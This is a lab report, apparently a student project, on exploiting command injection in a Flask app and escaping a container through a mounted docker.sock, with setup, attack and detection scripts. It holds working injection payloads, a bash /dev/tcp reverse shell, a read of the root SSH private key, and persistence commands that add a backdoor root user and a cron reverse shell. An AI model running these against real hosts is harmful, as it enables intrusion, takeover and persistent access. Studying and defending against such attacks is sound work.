Follow-up enumeration commands use the same injection vector to gather environment information:

\begin{lstlisting}[language=bash]
curl -s "http://192.168.98.4:5000/ping?host=8.8.8.8%3Buname+-a"
curl -s "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bls+-la+/var/run/docker.sock"
\end{lstlisting}

\vspace{0.3cm}

\section{Why the Response Leaks to the Browser}

NetDiag exhibits non-blind injection because the injected command output is reflected directly in the HTTP response body. Understanding this reflection path explains why no out-of-band infrastructure is needed and why every enumeration command returns immediate results.

The output path from shell execution to HTTP response is:

\begin{lstlisting}
shell stdout -> pipe -> os.popen().read() -> Python string
    -> render_template -> HTTP response body
\end{lstlisting}

At the system call level, \texttt{os.popen()} creates a \texttt{pipe()} before calling \texttt{fork()}. The child process, which becomes the shell, has its \texttt{stdout} redirected to the pipe's write end via \texttt{dup2()}. The parent process blocks on \texttt{read()} on the pipe's read end. When the shell exits, all output that was written to the pipe becomes available to the parent in a single \texttt{read()} call. Because all commands in a shell session share the same \texttt{stdout}, output from every injected command is captured.

Flask passes the output string to Jinja2 via \texttt{render\_template}. Jinja2's \texttt{{{ result }}} syntax HTML-escapes special characters, which prevents XSS but passes plain text output through unmodified. The HTTP response code is always \texttt{200 OK} regardless of whether the injected command succeeded, failed, or produced an error.

Standard error (\texttt{stderr}) is not captured by \texttt{os.popen()} by default. To capture error output alongside standard output, the attacker appends \texttt{2>\&1} to the payload:

\begin{lstlisting}
8.8.8.8;cat /root/.ssh/id_rsa 2>&1
\end{lstlisting}

The non-blind nature of this injection means the full attack chain can be executed using only \texttt{curl} with no timing attacks, DNS callbacks, or HTTP exfiltration channels.

\vspace{0.3cm}

\section{OS-Level View -- What Happens When the Shell Runs}

This section traces the complete execution path from TCP packet arrival to HTTP response delivery for the request \texttt{GET /ping?host=8.8.8.8;id}.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{System call sequence from HTTP request to injected command output}
\end{figure}

\textbf{Step 1 -- Network ingress.} The TCP packet arrives at the host NIC. iptables DNAT rules forward port 5000 traffic to the container via a veth pair. The packet enters the container's network namespace and is delivered to Flask's \texttt{accept()} call, returning a socket file descriptor.

\textbf{Step 2 -- HTTP parsing.} Werkzeug calls \texttt{recv()} on the socket, parses the HTTP request line and headers, URL-decodes the query string (\texttt{\%3B} becomes \texttt{;}), and routes the request to the \texttt{ping()} view function.

\textbf{Step 3 -- \texttt{os.popen()} internals.}

\begin{lstlisting}
pipe()   -> [read_fd, write_fd]
fork()   -> child PID (inherits UID 0, all file descriptors)
child:   dup2(write_fd, STDOUT_FILENO)
         execve("/bin/sh", ["-c", "ping -c 3 8.8.8.8;id"])
parent:  close(write_fd)
         read(read_fd, ...)   <- blocks here
\end{lstlisting}

\textbf{Step 4 -- Shell parsing and execution.} \texttt{/bin/sh} receives the string \texttt{ping -c 3 8.8.8.8;id} as its \texttt{-c} argument. The shell parses the \texttt{;} separator and executes two commands sequentially:

\begin{lstlisting}
fork() + execve("/bin/ping", ["-c","3","8.8.8.8"])  -> ping runs, exits
fork() + execve("/usr/bin/id", ["id"])               -> id runs
    output "uid=0(root)..." written to stdout (pipe write end)
shell exits
\end{lstlisting}

\textbf{Step 5 -- Response assembly.} The parent process unblocks from \texttt{read()}, receives the complete output string, passes it to \texttt{render\_template}, and calls \texttt{send()} on the socket to deliver the HTTP response.

The process tree on the host during execution is:

\begin{lstlisting}
python3 app.py     PID 847  UID 0   <- Flask, container PID 1
  +-- /bin/sh -c   PID 848  UID 0   <- forked by os.popen
      +-- ping     PID 849  UID 0   <- exits before id runs
      +-- id       PID 850  UID 0   <- runs after ping
\end{lstlisting}

All PIDs exist within the container's PID namespace. The host sees the real underlying PIDs through \texttt{/proc}. No anomalous system calls are generated -- \texttt{fork()} and \texttt{execve()} are normal process operations. Detection of this attack requires process tree analysis and parent-child relationship monitoring rather than syscall blocking.

\vspace{0.5cm}
\chapter{The Full Attack Chain}

\section{Overview of the Chain}

The attack demonstrated in this project requires no CVE, no kernel exploit, and no specialized tooling beyond \texttt{curl} and \texttt{netcat}. It is made possible entirely by two misconfigurations that co-exist in the target environment: OS command injection in \texttt{app.py} due to unsanitized input passed to \texttt{os.popen()}, and \texttt{/var/run/docker.sock} bind-mounted into the container, granting any root process inside the container full control over the host Docker daemon.

The complete attack chain proceeds as follows:

\begin{lstlisting}
Command Injection (HTTP GET)
       |
       v
RCE as root inside container
       |
       v
Reverse Shell (bash TCP redirect)
       |
       v
Container Enumeration (confirm docker.sock present)
       |
       v
docker.sock Abuse (CLI installed inside container)
       |
       v
Privileged Container Spawned (host / mounted)
       |
       v
Host Filesystem Write (escaped.txt on real host)
\end{lstlisting}

Each step is deterministic. There is no bruteforce, no timing dependency, and no guessing. The chain proceeds in a fixed sequence where each step produces the exact precondition required by the next. In a real engagement, the full chain can be completed in under five minutes.

\vspace{0.3cm}

\section{Step 1 -- Confirming RCE}

Before investing in further exploitation, the attacker first verifies that command injection is functional and that the execution context is root. The confirmation request is:

\begin{lstlisting}
GET http://192.168.98.4:5000/ping?host=8.8.8.8%3Bid
\end{lstlisting}

A successful response body contains:

\begin{lstlisting}
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}

The \texttt{attack.sh} automation script encodes this as a hard precondition:

\begin{lstlisting}[language=bash]
RESPONSE=$(curl -s --max-time 10 "${TARGET}/ping?host=8.8.8.8%3Bid")
echo "$RESPONSE" | grep -q "uid=0" || exit 1
\end{lstlisting}

The script exits immediately if root execution is not confirmed, preventing downstream steps from producing misleading output. The docker socket is also verified before proceeding:

\begin{lstlisting}[language=bash]
curl -s "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bls+-la+/var/run/docker.sock"
# srw-rw---- 1 root 132 ... /var/run/docker.sock
\end{lstlisting}

Confirmation of both root execution and socket presence constitutes a fully green light for the remainder of the chain.

\vspace{0.3cm}

\section{Step 2 -- Establishing a Reverse Shell}

\subsection{What a Reverse Shell Is}

A reverse shell is a technique in which the target machine initiates the TCP connection back to the attacker, rather than the attacker connecting inbound to the target. This is necessary here because the container is behind NAT and has no directly reachable inbound port from VM2's perspective. The attacker opens a listener on a known port; the injected payload on the target connects outward to that port; the attacker receives an interactive shell session.

This is in contrast to a bind shell, in which the target opens a listening port and waits for the attacker to connect. A bind shell is impractical in this topology because the container's IP (\texttt{172.17.0.x}) is not directly reachable from VM2 without routing through the host.

\subsection{The Bash TCP Redirect Technique}

The reverse shell payload is:

\begin{lstlisting}[language=bash]
bash -i >& /dev/tcp/192.168.98.5/4444 0>&1
\end{lstlisting}

Each component serves a specific purpose. \texttt{bash -i} starts an interactive bash session with a prompt and job control enabled. \texttt{/dev/tcp/host/port} is a bash built-in facility -- it is not a real filesystem path but a special construct that causes bash to ask the kernel to create a \texttt{SOCK\_STREAM} TCP socket and connect it to the specified host and port. \texttt{>\&} redirects both \texttt{stdout} and \texttt{stderr} to the file descriptor associated with the TCP socket. \texttt{0>\&1} redirects \texttt{stdin} from the same socket, completing the bidirectional I/O loop.

No external binary is required. The entire payload executes using bash's built-in \texttt{/dev/tcp} support. At the kernel level, the sequence is:

\begin{lstlisting}
socket(AF_INET, SOCK_STREAM, 0)
connect(sockfd, {192.168.98.5:4444})
dup2(sockfd, STDIN_FILENO)
dup2(sockfd, STDOUT_FILENO)
dup2(sockfd, STDERR_FILENO)
\end{lstlisting}

The payload is URL-encoded for safe HTTP delivery:

\begin{lstlisting}
bash+-c+'bash+-i+>%26+/dev/tcp/192.168.98.5/4444+0>%261'
\end{lstlisting}

The full curl trigger command is:

\begin{lstlisting}[language=bash]
curl -s "http://192.168.98.4:5000/ping?host=8.8.8.8;bash+-c+\
'bash+-i+>%26+/dev/tcp/192.168.98.5/4444+0>%261'"
\end{lstlisting}

\subsection{Netcat Listener Setup}

The listener must be started on VM2 before the payload is sent. The command is:

\begin{lstlisting}[language=bash]
nc -lvnp 4444
\end{lstlisting}

The flags specify: \texttt{-l} (listen mode), \texttt{-v} (verbose output, shows connection received), \texttt{-n} (no DNS resolution, faster), \texttt{-p 4444} (bind to port 4444). In \texttt{attack.sh}, the listener is opened automatically in a new terminal window before the payload curl is dispatched.

After the payload fires, the curl command will hang indefinitely. This is expected behavior: the Flask thread is blocked inside \texttt{os.popen().read()}, waiting for the shell process to exit. Since the reverse shell keeps the bash process alive, \texttt{os.popen()} never returns. The interactive session is available on the netcat listener, not in the curl output.

\subsection{Shell Stabilization with PTY}

The raw netcat shell lacks a pseudo-terminal (PTY). This causes several practical problems: pressing \texttt{Ctrl+C} terminates the entire netcat connection rather than the current foreground process; tab completion does not work; and programs that require a TTY (such as \texttt{sudo}, \texttt{vim}, or \texttt{su}) will refuse to start.

Shell stabilization is performed by running the following sequence inside the reverse shell:

\begin{lstlisting}[language=bash]
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
\end{lstlisting}

Then, on the attacker's local terminal, background the netcat process and configure the local terminal to pass raw input:

\begin{lstlisting}[language=bash]
# Press Ctrl+Z to background nc
stty raw -echo; fg
# Press Enter twice
\end{lstlisting}

\texttt{pty.spawn()} allocates a pseudo-terminal and attaches bash to it, so the shell behaves identically to a normal interactive login session. \texttt{stty raw -echo} on the local terminal disables local line editing and stops echoing characters, so all keystrokes are forwarded raw to the remote shell over netcat. The result is a fully interactive shell with job control, arrow key history, and correct \texttt{Ctrl+C} behavior.

\vspace{0.3cm}

\section{Step 3 -- Enumerating the Container}

Once the reverse shell is established, the attacker performs a structured enumeration of the container environment to confirm the execution context and identify the escape vector.

First, identity and OS context are confirmed:

\begin{lstlisting}[language=bash]
id                     # uid=0(root) -- confirmed root
hostname               # container hostname
cat /etc/os-release    # Debian-based, apt-get available
uname -a               # kernel version -- shared with host
\end{lstlisting}

Second, the container boundary is verified to ensure the attacker is not already on the host:

\begin{lstlisting}[language=bash]
cat /proc/1/cgroup     # contains docker/<container-id>
ls /.dockerenv         # present in Docker containers
cat /proc/self/mounts  # shows overlay filesystem and bind mounts
\end{lstlisting}

Third, the docker socket escape vector is located:

\begin{lstlisting}[language=bash]
ls -la /var/run/docker.sock
# srw-rw---- 1 root 132 ... -- present and root-accessible
find / -name docker.sock 2>/dev/null  # alternative discovery
\end{lstlisting}

Fourth, network topology is mapped:

\begin{lstlisting}[language=bash]
ip addr    # container IP: 172.17.0.x
ip route   # default via docker0 gateway
\end{lstlisting}

Finally, the package manager is verified functional:

\begin{lstlisting}[language=bash]
which apt-get      # confirms package manager present
apt-get update -qq # confirms internet and repo access
\end{lstlisting}

The three findings that unlock the next step are: \texttt{docker.sock} is present and accessible to \texttt{UID 0}; the process is running as root; and \texttt{apt-get} is functional. All three are confirmed here.

\vspace{0.3cm}

\section{Step 4 -- Finding and Abusing docker.sock}

The socket file confirmed in Step 3 has the following permissions:

\begin{lstlisting}
srw-rw---- 1 root 132 ... /var/run/docker.sock
\end{lstlisting}

The \texttt{s} type character identifies it as a Unix domain socket. The owner is \texttt{root}, and the attacker's process runs as \texttt{UID 0}, so the permission check passes without requiring group membership.

A live daemon connection is verified without requiring the Docker CLI binary, using \texttt{curl}'s Unix socket support:

\begin{lstlisting}[language=bash]
curl -s --unix-socket /var/run/docker.sock http://localhost/version
\end{lstlisting}

A successful response returns a JSON object containing the Docker daemon version, API version, and build information. This confirms that the socket bind-mount is live and the daemon is responding to API calls.

All containers currently running on the host are enumerable via the API:

\begin{lstlisting}[language=bash]
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/json | python3 -m json.tool
\end{lstlisting}

Access to the daemon API is unrestricted. There is no authentication token, certificate, or challenge required. A connection to the socket is equivalent to full administrative access to the Docker daemon. From this point, without any additional tools, the attacker can create new containers with arbitrary volume mounts, read environment variables from other running containers (which may contain credentials), stop or restart any container on the host, and read arbitrary host filesystem paths by mounting them into a new container.

\vspace{0.3cm}

\section{Step 5 -- Installing Docker CLI Inside the Container}

While the raw HTTP API via \texttt{curl} is sufficient to complete the escape (as demonstrated in Section~\ref{sec:sockabuse}), the Docker CLI provides a more ergonomic interface for the escape command. The CLI is installed directly inside the compromised container:

\begin{lstlisting}[language=bash]
apt-get update -qq
apt-get install -y docker.io
\end{lstlisting}

This succeeds because the container runs as \texttt{UID 0}, \texttt{apt-get} is present in the base image, and the base Debian package repositories are configured and reachable. The \texttt{docker.io} package provides the Docker CLI binary. The Docker daemon inside the package is not started and is not relevant -- only the CLI client is needed.

After installation, the CLI is verified against the host daemon via the bind-mounted socket:

\begin{lstlisting}[language=bash]
docker -H unix:///var/run/docker.sock ps
\end{lstlisting}

A successful response lists all running containers on the host, confirming that the CLI is communicating with the host daemon through the bind-mounted socket. The \texttt{-H} flag explicitly specifies the socket path. Docker CLI defaults to this same path without the flag, but explicit specification removes any ambiguity for documentation and scripting purposes.

If \texttt{apt-get} were unavailable (for example in a minimal or non-Debian base image), the escape could proceed using only the raw \texttt{curl} API calls shown in the previous section. The CLI installation step is a convenience, not a requirement.

\vspace{0.3cm}

\section{Step 6 -- Spawning a Privileged Container with Host Root Mounted}

This step is the moment of escape. The attacker, operating inside the compromised container over the reverse shell, instructs the host Docker daemon to spawn a new container with the host root filesystem mounted inside it.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{Docker socket abuse: attacker's container instructs host daemon to mount host root into a new container}
\end{figure}

The escape command is:

\begin{lstlisting}[language=bash]
docker -H unix:///var/run/docker.sock run -d \
  -v /:/hostfs --rm alpine \
  chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'
\end{lstlisting}

Each component is significant. \texttt{-H unix:///var/run/docker.sock} directs the CLI to communicate with the host daemon via the bind-mounted socket. \texttt{run -d} creates and starts a new container in detached mode. \texttt{-v /:/hostfs} bind-mounts the host root filesystem into the new container at \texttt{/hostfs} -- critically, this \texttt{/} refers to the \textit{host's} root, because it is the daemon (running on the host) that resolves the source path, not the attacker's container. \texttt{--rm} removes the new container automatically after the command completes. \texttt{alpine} is the base image -- minimal and likely already cached; if not, the daemon pulls it automatically. \texttt{chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'} changes the process root to the host filesystem and executes the payload, writing the file to \texttt{/tmp/escaped.txt} on the actual host.

At the kernel level, the sequence on the host side is:

\begin{lstlisting}
1. HTTP POST /containers/create received by dockerd (UID 0 on host)
2. dockerd -> containerd -> runc
3. runc: mount(MS_BIND, "/", container_rootfs + "/hostfs")
          (host root bound into new container's mount namespace)
4. New container process: chroot /hostfs
                          execve sh -c 'echo pwned > /tmp/escaped.txt'
5. File written to /tmp/escaped.txt in host's mount namespace
\end{lstlisting}

The attacker's original container never changes its namespace. It never calls \texttt{setns()} or \texttt{unshare()}. The escape is entirely daemon-mediated: the attacker sends an API instruction, and the daemon -- running in host namespaces with full capabilities -- performs the privileged operation on the attacker's behalf.

\vspace{0.3cm}

\section{Step 7 -- Writing to the Host Filesystem}

The escape is verified by checking for the artifact file on VM1 from outside any container:

\begin{lstlisting}[language=bash]
cat /tmp/escaped.txt
# pwned
\end{lstlisting}

The presence of this file on the real host filesystem proves that a process which started inside a container wrote data to the host. The container's mount namespace was bypassed not by breaking any isolation primitive, but by using the daemon API to create a new container that was intentionally given access to the host filesystem.

The \texttt{detect.sh} script checks for this artifact as a first-order indicator of compromise:

\begin{lstlisting}[language=bash]
[ -f /tmp/escaped.txt ] && echo "HOST IS COMPROMISED"
\end{lstlisting}

The same mechanism that wrote the demonstration file can be used for persistent, high-impact actions on the host:

\begin{lstlisting}[language=bash]
# Add an SSH public key for persistent access
chroot /hostfs sh -c 'echo "<pubkey>" >> /root/.ssh/authorized_keys'

# Add a backdoor root user to /etc/passwd
chroot /hostfs sh -c \
  'echo "backdoor:x:0:0::/root:/bin/bash" >> /etc/passwd'

# Install a cron-based reverse shell for persistence
chroot /hostfs sh -c \
  'echo "* * * * * root bash -i >& /dev/tcp/192.168.98.5/4444 0>&1" \
  >> /etc/crontab'
\end{lstlisting}

Each of these operations is structurally identical to the proof-of-concept write. The host is fully compromised.

\vspace{0.3cm}

\section{Kernel-Level View of the Escape}

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{Namespace boundary diagram: attacker container, host daemon, and new privileged container}
\end{figure}

The escape is most precisely understood in terms of Linux namespaces. The attacker's container operates within its own set of namespaces: a PID namespace that scopes process visibility, a mount namespace rooted on an OverlayFS layer, and a network namespace with address \texttt{172.17.0.x}. None of these namespaces are directly crossed or modified during the attack.

The bind-mounted docker socket is a single socket inode that exists in both the host's mount namespace and the container's mount namespace simultaneously. When the attacker's process writes to this socket, it is performing a standard filesystem write from within the container's mount namespace. The kernel delivers the data to \texttt{dockerd}, which is a process running in the host's PID and mount namespaces. The socket is the channel through which namespace boundaries are traversed indirectly.

The daemon, upon receiving the \texttt{/containers/create} API call with \texttt{-v /:/hostfs}, creates a new container whose mount namespace is constructed to include a bind-mount of the host's root filesystem. The new container's \texttt{/hostfs} path resolves to the host's \texttt{/} in the host's mount namespace. When the new container writes to \texttt{/hostfs/tmp/escaped.txt}, the file is created in the host's mount namespace at \texttt{/tmp/escaped.txt}.

Table~\ref{tab:namespace_boundaries} summarizes which namespace boundaries were crossed and by what mechanism.

\begin{table}[h]
\centering
\caption{Namespace Boundary Analysis}
\label{tab:namespace_boundaries}
\begin{tabular}{|l|l|l|}
\hline
\textbf{Boundary} & \textbf{Crossed?} & \textbf{Mechanism} \\
\hline
Attacker PID namespace & No & Daemon acts on attacker's behalf \\
Attacker mount namespace & No & Socket fd traverses, not process \\
Host mount namespace & Yes (by new container) & \texttt{-v /:/hostfs} bind mount \\
Network namespace & No & TCP reverse shell uses veth/NAT \\
\hline
\end{tabular}
\end{table}

The cgroup limits, Linux capabilities, and seccomp profile applied to the attacker's original container are all irrelevant to this escape. None of these controls apply to operations that the daemon performs autonomously on the host after receiving an API instruction. The daemon itself operates with full capabilities, no seccomp profile, and no cgroup restrictions on its own process tree.

\vspace{0.3cm}

\section{Why This Is Not a Kernel Exploit}

A kernel exploit is defined as an attack that abuses a bug in kernel code to gain privileges that the system configuration explicitly does not permit. Kernel exploits are tied to specific CVEs, require unpatched vulnerabilities, and are neutralized by kernel updates. Well-known examples include Dirty COW (CVE-2016-5195), which abused a race condition in the copy-on-write page fault handler, and the runc container escape (CVE-2019-5736), which exploited a file descriptor leak in the container runtime.

This attack shares none of those characteristics. Every operation in the chain is behavior that the Docker daemon explicitly supports and that the system configuration explicitly permits. Mounting \texttt{docker.sock} into a container is a deliberate administrator action. The daemon accepting API calls over that socket is designed behavior. Creating a new container with \texttt{-v /:/hostfs} is a valid and documented API operation. Writing a file inside a bind-mounted host directory is the expected outcome of that operation. No kernel memory is corrupted, no race condition is triggered, and no unintended code path is exercised.

\begin{table}[h]
\centering
\caption{Kernel Exploit vs. Misconfiguration Attack Comparison}
\label{tab:exploit_comparison}
\begin{tabular}{|l|l|l|}
\hline
\textbf{Property} & \textbf{Kernel Exploit} & \textbf{This Attack} \\
\hline
Requires CVE & Yes & No \\
Kernel version dependent & Yes & No \\
Fixed by kernel patch & Yes & No \\
Fixed by config change & No & Yes (remove socket mount) \\
Reliability & Varies & Deterministic \\
Exploit development required & Yes & No \\
\hline
\end{tabular}
\end{table}

This distinction has a direct implication for remediation. A kernel exploit is fixed by applying a security patch. This attack is fixed by removing the \texttt{-v /var/run/docker.sock:/var/run/docker.sock} line from the container configuration. No patch, no CVE tracking, no kernel update is involved. The attack demonstrates that misconfiguration represents a more prevalent and more immediately actionable threat surface than kernel vulnerabilities in containerized environments.

\vspace{0.5cm}
\chapter{Script Documentation}

\section{setup.sh --- Full Walkthrough}

\texttt{setup.sh} runs on VM1. Its job is to build the vulnerable Docker image and launch the misconfigured container that the attack chain targets. Every block below creates or depends on a condition that the attacker later exploits.

\subsection{Dependency Checks}

The script opens with \texttt{set -e}, which instructs Bash to abort on the first non-zero exit code. This prevents a partial setup where some steps succeed and later steps silently fail against a broken environment.

Before any Docker work, two file existence guards run:

\begin{lstlisting}[language=bash]
[ -f "./host/app.py" ]     || err "app.py not found"
[ -f "./host/Dockerfile" ] || err "Dockerfile not found"
\end{lstlisting}

Both files are required for the image build. If the script is invoked from the wrong working directory, it aborts immediately rather than proceeding to a build that would fail with a confusing error.

Docker availability is checked and auto-installed if absent:

\begin{lstlisting}[language=bash]
command -v docker || apt-get install -y docker.io \
    && systemctl enable --now docker
\end{lstlisting}

\texttt{command -v} is the POSIX-compliant binary lookup, preferred over \texttt{which} because it is a shell built-in and does not depend on \texttt{PATH} containing \texttt{/usr/bin}. \texttt{docker.io} is the Debian/Ubuntu package name for the Docker engine. \texttt{systemctl enable --now} starts the daemon immediately and registers it to start on subsequent boots in a single command. On success the script prints the installed version via \texttt{docker --version}.

The script also defines three output functions --- \texttt{banner}, \texttt{ok}, and \texttt{err} --- that wrap ANSI escape codes. These have no functional role in the attack or detection; they exist solely to make output readable during a live demonstration.

\subsection{Docker Build Flow}

The image is built with:

\begin{lstlisting}[language=bash]
docker build -t netdiag ./host/
\end{lstlisting}

The \texttt{-t netdiag} flag tags the resulting image as \texttt{netdiag:latest}. The \texttt{./host/} argument is the build context --- the daemon receives a tar of this directory, which at minimum contains \texttt{app.py} and \texttt{Dockerfile}.

The daemon executes each Dockerfile instruction as a separate layer:

\begin{itemize}
    \item \texttt{FROM python:3.11-slim} pulls the base image from Docker Hub if not already in the local cache and sets it as the starting layer.
    \item \texttt{COPY . .} copies the build context (including \texttt{app.py}) into the image at the current \texttt{WORKDIR}.
    \item \texttt{RUN pip install flask} spawns a temporary container, runs the install, and commits the result as a new layer.
\end{itemize}

The final image is stored in \texttt{/var/lib/docker/overlay2/} on the host. Before building, the script checks for and removes any previously named container to ensure idempotent re-runs:

\begin{lstlisting}[language=bash]
docker ps -a --format '{{.Names}}' \
    | grep -q "^netdiag-app$" \
    && docker rm -f netdiag-app
\end{lstlisting}

The \texttt{--format '\{\{.Names\}\}'} Go template avoids parsing the human-readable header line. \texttt{rm -f} force-removes the container even if it is in a running state. This block makes the script safe to re-run without manual cleanup between attempts.

\subsection{The Misconfigured \texttt{docker run} Command}

The following command creates the environment the attacker exploits:

\begin{lstlisting}[language=bash]
docker run -d \
    -p 5000:5000 \
    -v /var/run/docker.sock:/var/run/docker.sock \
    --name netdiag-app \
    netdiag
\end{lstlisting}

Each flag carries a distinct consequence:

\begin{itemize}
    \item \textbf{\texttt{-d}}: Detached mode. The container runs as a background process; the terminal returns immediately. The container persists until explicitly stopped.
    \item \textbf{\texttt{-p 5000:5000}}: Docker creates an \texttt{iptables} DNAT rule that forwards TCP traffic arriving on host port 5000 to port 5000 inside the container. This is what makes the Flask application reachable from VM2.
    \item \textbf{\texttt{-v /var/run/docker.sock:/var/run/docker.sock}}: This is the misconfiguration. It bind-mounts the host Docker daemon socket into the container at the identical path. Both sides reference the same inode. Any process inside the container that can open this socket can send API commands to the host daemon as if it were running natively on the host. Since the Flask process runs as \texttt{root} inside the container, it has immediate read/write access.
    \item \textbf{\texttt{--name netdiag-app}}: Assigns a deterministic name to the container. \texttt{detect.sh} later references this name to run \texttt{docker inspect}.
\end{itemize}

The script concludes by printing the application URL (\texttt{http://192.168.98.4:5000}), a pre-formed injection test URL (\texttt{http://192.168.98.4:5000/ping?host=8.8.8.8;id}), and an instruction to proceed with \texttt{attack.sh} on VM2.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{setup.sh execution flow: dependency checks, image build, and misconfigured container launch}
\end{figure}

% ---

\section{attack.sh --- Full Walkthrough}

\texttt{attack.sh} runs on VM2. It drives each phase of the attack chain in sequence, pausing between steps so the operator can observe results and control pacing during a live demonstration. It does not fully automate post-exploitation; the escape itself requires manual commands inside the reverse shell.

At the top of the script, four variables must be set before execution:

\begin{lstlisting}[language=bash]
VICTIM_IP="192.168.98.4"
ATTACKER_IP="192.168.98.5"
PORT=4444
TARGET="http://${VICTIM_IP}:5000"
\end{lstlisting}

The \texttt{pause()} function calls \texttt{read -r} and blocks until the operator presses Enter, giving control over when each phase fires. This is the only interactivity in the script.

\subsection{RCE Confirmation via curl}

The first block confirms that remote code execution is available before attempting the reverse shell:

\begin{lstlisting}[language=bash]
RESPONSE=$(curl -s --max-time 10 \
    "${TARGET}/ping?host=8.8.8.8%3Bid")
echo "$RESPONSE" | grep -q "uid=0" || exit 1
\end{lstlisting}

\texttt{\%3B} is the URL-encoded form of the semicolon character. The Flask server decodes it before the value reaches \texttt{os.popen()}, which passes the result to \texttt{/bin/sh -c}. The shell interprets the semicolon as a command separator, executing \texttt{ping -c 3 8.8.8.8} and then \texttt{id}. Because the Flask process runs as root inside the container, \texttt{id} returns a line containing \texttt{uid=0}.

\texttt{--max-time 10} prevents the \texttt{curl} call from hanging indefinitely if the victim is unreachable. \texttt{grep -q "uid=0"} performs a silent match; if the string is absent the script exits with a non-zero code rather than proceeding to the reverse shell phase with a broken assumption.

On success the script prints the raw response lines containing \texttt{uid=} as visual proof for the demonstration audience.

\subsection{Reverse Shell Automation}

The listener is launched in a new terminal window. The script tries multiple terminal emulators in order:

\begin{lstlisting}[language=bash]
command -v xterm \
    && xterm -e "nc -lvnp ${PORT}" &
command -v gnome-terminal \
    && gnome-terminal -- bash -c \
       "nc -lvnp ${PORT}; exec bash" &
# fallback: print manual instruction
\end{lstlisting}

The trailing \texttt{\&} backgrounds each terminal process so the script continues rather than blocking. A \texttt{sleep 1} follows to ensure the listener is bound before the payload fires.

The payload is then delivered via \texttt{curl}:

\begin{lstlisting}[language=bash]
PAYLOAD="bash+-c+'bash+-i+>%26+/dev/tcp/${ATTACKER_IP}/${PORT}+0>%261'"
curl -s --max-time 5 \
    "${TARGET}/ping?host=8.8.8.8%3B${PAYLOAD}" \
    &>/dev/null &
\end{lstlisting}

The encoding conventions in the payload:
\begin{itemize}
    \item \texttt{+} encodes spaces in a query string value, which the server decodes before passing to the shell.
    \item \texttt{\%26} encodes \texttt{\&}; \texttt{\%261} encodes \texttt{\&1}, reconstructing the \texttt{>\&} and \texttt{0>\&1} redirections required for the Bash TCP redirect shell.
    \item \texttt{--max-time 5}: Flask's \texttt{os.popen().read()} blocks while the reverse shell is active, which would hang \texttt{curl} indefinitely. The timeout forces \texttt{curl} to terminate without waiting for a response.
    \item \texttt{\&>/dev/null \&}: the entire \texttt{curl} invocation is backgrounded and its output discarded. The reverse shell appears in the listener window rather than on the script's terminal.
\end{itemize}

\subsection{Post-Exploitation Instruction Block}

The script does not automate the escape. After the reverse shell connects, Step 3 prints a block of commands for the operator to run manually inside the shell. This is intentional: automating the escape would prevent the operator from inspecting intermediate states during a demonstration.

Shell stabilisation commands are printed first:

\begin{lstlisting}[language=bash]
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z, then on attacker: stty raw -echo; fg, then Enter twice
\end{lstlisting}

Socket verification:

\begin{lstlisting}[language=bash]
ls -la /var/run/docker.sock
\end{lstlisting}

Docker CLI install and escape container:

\begin{lstlisting}[language=bash]
apt-get update && apt-get install -y docker.io
docker -H unix:///var/run/docker.sock run -d \
    -v /:/hostfs --rm alpine \
    chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'
\end{lstlisting}

Verification:

\begin{lstlisting}[language=bash]
cat /tmp/escaped.txt   # run on VM1
\end{lstlisting}

The script closes by directing the operator to run \texttt{detect.sh} on VM1, connecting the attack phase to the detection phase documented in Section~\ref{sec:detect}.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{attack.sh phase sequence: RCE confirmation, reverse shell delivery, and manual escape instructions}
\end{figure}

% ---

\section{detect.sh --- Full Walkthrough}
\label{sec:detect}

\texttt{detect.sh} runs on VM1 after the attack. It executes four checks in order, each targeting a different layer of evidence: the escape artifact, the container configuration, kernel-level audit events, and live socket handles. Each check is independent; a positive result on any one of them is sufficient to flag the host as compromised or misconfigured.

\subsection{Checking for the Escape Artifact}

\begin{lstlisting}[language=bash]
[ -f /tmp/escaped.txt ] && cat /tmp/escaped.txt
\end{lstlisting}

\texttt{/tmp/escaped.txt} is the most direct indicator of compromise in this scenario. It was written to the host filesystem by a process running inside a container --- an action that should be impossible without an escape. The file contains the string \texttt{pwned}, written by the \texttt{chroot /hostfs sh -c 'echo pwned > /tmp/escaped.txt'} command in the escape step.

A positive result triggers a \texttt{warn "HOST IS COMPROMISED"} message in red.

The limitation of this check is significant: it depends on an attacker-controlled artifact. A real attacker would delete the file after confirming the escape succeeded. Absence of the file does not imply safety. The check is valuable in the demonstration context precisely because its output is unambiguous for an audience, but it should not be the primary detection mechanism in a production environment.

\subsection{Inspecting Mounts with docker inspect}

\begin{lstlisting}[language=bash]
docker inspect netdiag-app | python3 -c "
import sys, json
data = json.load(sys.stdin)
mounts = data[0].get('Mounts', [])
for m in mounts:
    print('Source:', m.get('Source'))
    print('Dest  :', m.get('Destination'))
"
\end{lstlisting}

\texttt{docker inspect} retrieves the full JSON state record for the named container from the Docker daemon. The \texttt{Mounts} array in that record lists every bind mount and volume attached to the container, including the source path on the host and the destination path inside the container.

The Python one-liner parses the JSON inline and prints each source/destination pair. The script then pipes this output through \texttt{grep -q "docker.sock"} to flag the critical misconfiguration.

This check is effective both reactively (after an incident) and proactively (as a routine audit). Unlike the artifact check, it does not rely on the attacker leaving evidence behind --- the misconfiguration is visible in daemon state as long as the container exists, whether or not an attack has occurred. \texttt{docker inspect} reads from daemon memory and does not require the container to be running.

\subsection{Setting Up auditd Rules}

\texttt{detect.sh} installs \texttt{auditd} if absent and starts the daemon:

\begin{lstlisting}[language=bash]
apt-get install -y auditd -qq \
    && systemctl enable --now auditd
\end{lstlisting}

It then sets a file watch rule:

\begin{lstlisting}[language=bash]
auditctl -w /var/run/docker.sock -p rwxa -k docker_sock
\end{lstlisting}

Flag breakdown:
\begin{itemize}
    \item \texttt{-w /var/run/docker.sock}: watch this specific filesystem path.
